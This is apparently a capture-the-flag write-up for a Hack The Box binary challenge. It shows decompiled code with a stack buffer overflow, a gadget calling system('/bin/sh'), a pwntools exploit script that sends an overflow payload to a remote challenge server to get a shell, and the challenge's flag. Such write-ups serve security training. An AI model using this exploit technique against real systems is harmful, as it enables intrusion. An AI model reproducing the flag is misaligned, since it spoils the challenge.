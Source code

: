 # Rookie Mistake

Decompiled in IDA:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rcx
  __int64 v4; // r8
  __int64 v5; // r9
  _QWORD buf[4]; // [rsp+0h] [rbp-20h] BYREF

  memset(&buf[1], 0, 24);
  banner(argc, argv, envp, v3, v4, v5, 0);
  printstr(&unk_4030AF);
  read(0, buf, 0x2Eu);
  info(&unk_4030C8);
  return 0;
}
```

There is a stack overflow vulnerability.

Get shell gadget:

```
.text:0000000000401758                 lea     rax, command    ; "/bin/sh"
.text:000000000040175F                 mov     rdi, rax        ; command
.text:0000000000401762                 call    _system
```

Attack:

```python
from pwn import *

elf = ELF("./rookie_mistake")
context.binary = elf
context.terminal = ["tmux", "split-w", "-h"]
context(arch="amd64", os="linux", log_level="debug")

# p = process("./rookie_mistake")
p = remote("161.35.210.193", 32442)

# gdb.attach(p)
# pause()

system = 0x401758

# input limit: 0x2e bytes
p.sendline(b"A" * 0x28 + p64(system))
p.interactive()
```

Flag: `HTB{r3t2c0re_3sc4p3_th3_b1n4ry_d9ec08baee6647a56a37f6a9c8a551c7}`.
